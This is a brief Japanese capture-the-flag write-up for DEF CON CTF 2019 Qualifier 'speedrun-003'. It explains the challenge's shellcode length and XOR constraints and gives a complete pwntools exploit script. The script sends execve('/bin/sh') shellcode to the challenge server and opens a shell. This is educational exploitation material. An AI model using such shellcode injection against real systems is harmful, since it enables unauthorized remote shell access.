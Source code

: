 # [pwn 5pts] speedrun-003 - DEF CON CTF 2019 Qualifier
64ビットで全部有効です。
```
$ checksec -f speedrun-003
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   77 Symbols     Yes	0		4	speedrun-003
```
シェルコードを受け付けてくれるのですが、次の条件があります。

- null文字は含まない
- 30バイト
- 前半15バイトのXORと後半15バイトのXORが一致する

条件を満たすように最後のバイトを適当に探索して終わりです。
```python
from pwn import *

def xor(shellcode):
    r = 0
    for c in shellcode:
        r ^= ord(c)
    return r

elfpath = "speedrun-003"
sock = remote("speedrun-003.quals2019.oooverflow.io", 31337)
#sock = process(elfpath)

shellcode = asm("""
mov rbx, 0xFF978CD091969DD1
neg rbx
push rbx
push rsp
pop rdi
cdq
push rdx
push rdi
push rsp
pop rsi
mov al, 0x3b
syscall
""", arch="amd64")
shellcode += b'A' * (0x1d - len(shellcode))

print(disasm(shellcode, arch='amd64'))

for c in range(0x100):
    if xor(shellcode[:15]) == xor(shellcode[15:] + chr(c)):
        shellcode += chr(c)
        break
else:
    print("ops")

sock.send(shellcode)

sock.interactive()
```

# 感想
初心者向けの問題です。
